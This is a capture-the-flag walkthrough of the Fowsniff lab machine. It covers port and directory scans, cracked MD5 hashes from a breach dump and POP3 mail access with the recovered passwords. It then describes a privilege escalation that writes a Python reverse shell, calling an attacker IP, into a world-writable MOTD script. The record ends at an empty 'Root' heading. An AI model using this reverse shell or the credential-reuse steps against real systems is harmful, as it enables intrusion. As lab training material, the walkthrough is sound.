


# Fowsniff CTF

## NMAP

```
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ sudo nmap -sS -p- 10.10.80.219   

Nmap scan report for 10.10.80.219
Host is up (0.052s latency).
Not shown: 65239 closed tcp ports (reset), 292 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap

Nmap done: 1 IP address (1 host up) scanned in 221.63 seconds

```

```
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ nmap -sV -p 22,80,110,143 -Pn 10.10.44.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 14:53 EDT
Nmap scan report for 10.10.44.233
Host is up (0.052s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3    Dovecot pop3d
143/tcp open  imap    Dovecot imapd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
                                                                   
```

## Website

**Website is Temporarily Out of Service**

The company suffered a data breach.


## SubDirectorie

```
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ gobuster dir -u http://10.10.79.0 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.79.0
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 289]
/.htaccess            (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 294]
/assets               (Status: 301) [Size: 309] [--> http://10.10.79.0/assets/]
/images               (Status: 301) [Size: 309] [--> http://10.10.79.0/images/]
/index.html           (Status: 200) [Size: 2629]
/robots.txt           (Status: 200) [Size: 26]
/server-status        (Status: 403) [Size: 298]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```


## Breach Dump


We can find a paste on PasteBin about the data breach.

https://pastebin.com/378rLnGi


Password Hash combinations
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

## Cracking Hashes


```
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 8a28a94a588a95b80163709ab4313aa4

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```

MD5 Hashes


Using Crackstation to crack these Hashes


```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```


## POP3 


```
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ nc 10.10.79.0 110                    
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.


list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone


.
retr 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.
```

## SSH

```
The temporary password for SSH is "S1ck3nBluff+secureshell"
```

S1ck3nBluffsecureshell


Trying the login with all user's until one worked:

```
┌──(kali㉿kali)-[~/Desktop/Fowsniff]
└─$ ssh baksteen@10.10.79.0
baksteen@10.10.79.0's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ 
```

```

baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)

```


## PrivEsc

```

[+] PATH
[i] Any writable folder in original PATH? (a new completed path will be exported)
/home/baksteen/bin:/home/baksteen/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
New path exported: /home/baksteen/bin:/home/baksteen/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```


```

baksteen@fowsniff:/home$ groups
users baksteen
s
baksteen@fowsniff:/home$ find / -group users -type f 2>/dev/null
    /opt/cube/cube.sh
/dev/mqueue/linpeas.txt
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ


baksteen@fowsniff:/home$ ls -la /opt/cube/cube.sh
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh


baksteen@fowsniff:/opt/cube$ ls
cube.sh
baksteen@fowsniff:/opt/cube$ cat cube.sh 
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

```

This cube is what shows up when we enter with an ssh session. We can maybe get a backdoor here.

This file might be up in the following files (https://serverfault.com/questions/407033/how-can-i-edit-the-welcome-message-when-ssh-start)

* /etc/motd (Message of the Day)
* /etc/update_motd.d ditectory
* /etc/ssh/sshd_config

```
baksteen@fowsniff:/opt/cube$ cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

Using MOTD for Priv Escalation (https://vk9-sec.com/motd-privilege-escalation/) 

We can not change MOTD but we can change the cube.sh file that is called by message of the day.
Add a reverse shell to cube.sh

```

baksteen@fowsniff:/opt/cube$ nano cube.sh 
baksteen@fowsniff:/opt/cube$ cat cube.sh 
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.191.218",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Start a listener on your attacking machine


Loggin again to ssh




## Root


